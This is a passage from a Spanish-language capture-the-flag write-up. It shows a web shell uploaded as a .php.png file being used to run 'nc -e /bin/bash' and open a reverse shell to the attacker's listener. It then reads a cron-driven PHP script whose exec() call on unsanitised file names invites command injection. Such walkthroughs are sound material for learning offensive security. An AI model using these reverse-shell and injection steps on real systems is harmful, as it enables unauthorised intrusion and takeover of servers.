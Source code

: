 ```bash
http://10.10.10.146/uploads/10_10_14_27.php.png?cmd=nc -e /bin/bash 10.10.14.27 443
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.146] 38076
whoami
apache
```

Para trabajar más cómodos vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Vemos que en `/home` existe el usuario **guly** y dentro de su directorio home vemos dos archivos de los cuales tenemos permisos de lectura. Por lo tanto, vamos a echarles un ojo:

```bash
bash-4.2$ cat check_attack.php 
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
bash-4.2$ cat crontab.guly 
*/3 * * * * php home/guly/check_attack.php
bash-4.2$
```
